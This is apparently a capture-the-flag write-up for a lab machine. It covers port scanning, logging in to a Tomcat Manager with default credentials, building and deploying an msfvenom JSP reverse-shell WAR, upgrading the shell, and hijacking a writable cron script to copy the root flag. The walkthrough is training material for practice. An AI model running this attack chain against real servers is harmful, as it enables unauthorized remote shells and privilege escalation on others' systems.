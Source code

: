 
---

### Enumeration

1. Scan all ports to identify services:
    
    ```bash
    nmap -p- -sV -Pn 0.0.0.0
    ```
    
2. Port **8080** is running a web service (Apache Tomcat).
    

---

### Initial Access

1. Access the Tomcat Manager page → credentials `user:password` are valid.
    
2. Upload a malicious WAR file to gain a reverse shell:
    
    ```bash
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -f war -o shell.war
    ```
    
3. Deploy `shell.war` via the Tomcat manager and trigger it to receive a shell.
    
4. Upgrade the shell for better interaction:
    
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    

---

### Privilege Escalation

1. Check sudo permissions:
    
    ```bash
    sudo -l
    ```
    
    → No useful entries.
    
2. Inspect cron jobs:
    
    ```bash
    cat /etc/crontab
    ```
    
3. Found writable script execution. Replace with malicious command to copy the root flag:
    
    ```bash
    echo "cp /root/root.txt /home/jack/root.txt" > /home/jack/id.sh
    ```
    

---

### Loot

- Retrieve the flag:
    
    ```bash
    cat /home/jack/root.txt
    ```
    
